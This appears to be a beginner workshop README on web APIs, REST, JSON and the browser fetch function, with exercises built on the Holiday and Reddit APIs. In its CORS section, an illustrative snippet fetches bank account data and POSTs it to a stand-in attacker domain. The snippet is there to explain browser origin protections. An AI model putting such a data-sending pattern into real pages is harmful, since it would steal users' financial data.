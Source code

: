 # Introduction to APIs

## What's an API
There are many definitions of API. For our purposes, an API will be an interface through which we can get some data to create an application.

As an example, if you call your bank to inquire about the balance of your credit card, the equivalent API could be served over HTTP and have you to make a `GET` request to `/accounts/12345/balance` where `12345` is your account number.

## Examples of APIs
Here are some examples of APIs:

* Goodreads - Books API: https://www.goodreads.com/api
* Holidays API: https://holidayapi.com/
* Darksky - Weather API: https://darksky.net/dev/
* Wikimedia API: https://www.mediawiki.org/wiki/API:Main_page
* Reddit JSON API: https://www.reddit.com/.json

## REST
REST is an architectural pattern that is useful to build scalable and performant APIs that are easy to consume.

REST centers around the notion of resources and the links between them, much like the web. Resources are arbitrary names that represent real-life concepts. REST APIs deal with the representations of such resources, and often use JSON as the data format. Other popular data formats are XML or CSV.

## JSON
In our case, all the APIs we'll look at use JSON as their output format. Since these APIs are served over HTTP, the JSON is just a piece of text (characters) that represents a JavaScript object.

All major languages have functions to decode JSON into the data structures of that language. For example PHP has the `json_decode` function that **parses** the JSON string into an associative array.

Since JSON is born from JavaScript -- it stands for **J**ava**S**cript **O**bject **N**otation -- it stands to reason that JS also has a way to parse JSON into an actual JavaScript object. It's called `JSON.parse`.

## Making HTTP calls from the browser
Modern browsers expose a function called `fetch` to the JavaScript environment they host. This function allows us to make HTTP calls once a page has already loaded. This process is often referred to as AJAX. Here's an example of using `fetch`:

```javascript
fetch('https://holidayapi.com/v1/holidays?key=XXX&country=CA&year=2017&month=04');
```

This function call will initiate an HTTP request to the Holiday API, and return a Promise for the result. To do something with the result, you first have to parse it as JSON, then you can use it as a regular object. Here's what the data looks like for this API:

```json
{
  "status": 200,
  "holidays": [
    {
      "name": "Good Friday",
      "date": "2017-04-14",
      "observed": "2017-04-14",
      "public":true
    }
  ]
}
```

And here's how we can retrieve it and do something with it:

```javascript
fetch('https://holidayapi.com/v1/holidays?key=XXX&country=CA&year=2017&month=04')
    .then(function(response) {
        return response.json(); // Promise for the JSON
    })
    .then(function(data) {
        data.holidays.forEach(function(holiday) {
            console.log(`${holiday.name} was on ${holiday.date}.`);
        });
    })
    .catch(function(error) {
        console.error('There was an error while fetching holidays', error.stack);
    });
```

Instead of using `console.log`, we can output the list of holidays in the DOM. A full example is available in [holidays.html](holidays.html).

:warning: **NOTE**: You have to create and set your own API key for the example to work!! 

## What can I do with APIs?
APIs are all about exposing data. For the applications using those APIs, the sky is the limit! Here's an example of using the Reddit API to create an app that looks like Outlook, so that you can browse Reddit at work and make it look like you're working :)

https://pcottle.github.io/MSOutlookit/

## CORS and JSONP
Calling APIs from browsers entails additional security considerations. Since browsers store sensitive information in the form of cookies, allowing arbitrary web pages to make requests to other arbitrary web pages poses security risks. Here's a non-working example:

```javascript
fetch('https://www.royalbank.com/api/accounts')
.then(function(response) {
    return response.json();
})
.then(function(data) {
    // Here we have some account data! Let's send it to ourselves
    fetch('https://www.evil-domain.com/collectAccounts', {method: 'POST', data: data});
})
```

The idea here is to lure a user to evil-website.com and execute some JavaScript that will make an HTTP request in the context of their browser. If the browser of our victim makes a request to Royal Bank and includes the cookies stored for this user, seeing the response would allow us to have all the account numbers of our victims.

For this reason, browsers will by default prevent us from seeing the responses of GET and POST requests sent to other Origins. An Origin is a protocol + a domain name like `https://www.freecodecamp.com`.

In the past, [JSONP](https://sacha.me/articles/jsonp-demystified/) was used as a way to go around the browser functionality. JSONP requires the cooperation of the API service by wrapping the JSON result in a function call, and sending it as the result of a `<script>` tag. The global function was previously created on the gloal object and could in turn receive the JSON response.

A more interesting way to have cooperation between origins is the [Http Access Control (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) specification. This spec allows API servers to send specific headers along with their response. These headers would tell the browser that it's OK for this request to have its response exposed.

---

# Activity
Since this workshop is intended for varying levels of JavaScript developers, we'll have many suggestions for you:

## Easy
Take the code in `holidays.html` as a starter code. Using the [Holiday API documentation](https://holidayapi.com/), try to build additional functionality on top. For example, you can use the [Pikaday](https://github.com/dbushell/Pikaday) plugin to have the user pick a date and show them the holidays for that month.

## More difficult
Using the [Reddit JSON API](https://www.reddit.com/.json), build an interface that shows reddit in text mode. As a basic version, only list the top posts of the frontpage. For more challenge, allow the user to select a subreddit and show the hot posts from that subreddit using the API.

## You're too good for this!
If you're too good for this, check out this repo that contains [three vanillajs projects](https://github.com/DecodeMTL/vanilla-js-projects) for you to undertake. If you need any guidance, don't hesitate to ask around :)
